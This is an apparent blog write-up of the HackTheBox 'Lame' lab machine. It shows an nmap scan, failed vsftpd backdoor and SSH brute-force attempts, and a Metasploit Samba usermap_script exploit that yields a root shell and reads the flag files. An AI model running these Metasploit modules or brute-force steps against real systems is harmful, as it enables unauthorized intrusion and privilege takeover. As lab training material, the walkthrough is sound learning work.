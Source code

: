 ```yaml
---
layout: post
title: HackTheBox - Lame
---
```



## Setup
Add the line ```10.10.10.3	lame.htb``` into ```/etc/hosts```.


## Enumeration
```
root@kali:~/HackTheBox/lame# nmap lame.htb -T4 -p- -A -oN nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:26 EDT
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.043s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|broadband router|remote management|printer|general purpose|specialized
Running (JUST GUESSING): Linux 2.4.X|2.6.X (92%), Arris embedded (92%), Control4 embedded (92%), Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Citrix XenServer 5.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.30 cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:citrix:xenserver:5.5
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Control4 HC-300 home controller (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h56m14s, deviation: 2h49m44s, median: -3d02h56m16s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-03-16T13:32:26-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   44.36 ms 10.10.14.1
2   44.43 ms lame.htb (10.10.10.3)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.20 seconds
```

Highlights:
 
> 21/tcp   open  ftp         vsftpd 2.3.4
> 22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
> 3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

 * Anonymous ftp available
 * ssh is open, so we should try a brute force attack to see if the SIEM catches us or if they have weak controls
 * samba instances
 
### FTP 
I first try FTP with anonymous:anonymous credentials. Anonymous access should not be allowed. Nothing immediately stands out though and nothing is visible in the directory. However, malware could be uploaded or ```put```.

Google tells us that there is a Backdoor Command Execution for vsftpd 2.3.4. But, the vulnerability appears patched.

Let's give it a shot.

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST lame.htb
RHOST => lame.htb
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

No luck with FTP.

 
### SSH
Since OpenSSH is on version 4.7, let's try an [SSH brute-force](https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits).

```
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS lame.htb
RHOSTS => lame.htb
msf5 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/ssh/ssh_login) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

No active sessions.

```

We could try another wordlist, but let's come back to this later.

### Samba
Let's look up Samba smbd 3.0.20. Rapid7 has a "username map script" Command Execution [here](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

```
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS lame.htb
RHOSTS => lame.htb
```
![root](/images/htb/lame/1.png)

```
whoami
root
arp -a
? (10.10.10.2) at 00:50:56:B9:BF:FF [ether] on eth0
route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
10.10.10.0      *               255.255.255.0   U     0      0        0 eth0
default         10.10.10.2      0.0.0.0         UG    100    0        0 eth0
cat /home/makis/user.txt
69454a937{censored}ea00acd2e84c5
cat /root/root.txt
92caac3be1{censored}721348a4e9df
```
